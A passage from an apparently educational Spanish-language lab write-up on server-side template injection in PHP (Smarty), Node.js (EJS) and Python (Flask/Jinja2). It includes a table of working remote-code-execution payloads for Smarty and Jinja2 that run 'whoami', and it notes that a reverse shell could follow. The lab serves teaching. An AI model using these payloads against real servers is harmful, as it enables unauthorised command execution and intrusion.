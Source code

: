 Como se puede observar en **PHP** ha sido muy fácil, en **Node.js** con EJS, solo consigo obtener ficheros con extensiones del sistema, y en **Python** he seguido las instrucciones de **Ingo Kleiber** en su post [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).

#### Tabla ejemplos RCE

| Tecnología  | Puerto | Payload enviado                                                                            |
|:-----------:|--------|--------------------------------------------------------------------------------------------|
| PHP         |   80   | `{exec("whoami")}`                                                                         |
| Node.js     | 3000   | ?                                                                                          |
| Python      | 5000   | `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}` |


En PHP con Smarty y Python con Flask ha sido fácil, pero con node.js y EJS no lo he conseguido.

A partir de aquí ya se podría crear una reverse-shell o cualquier otra cosa que quisieras ejecutar en el servidor.

Espero que este laboratorio y articulo sirva para que alguien aprenda algo sobre SSTI y las tecnologías de plantillas.

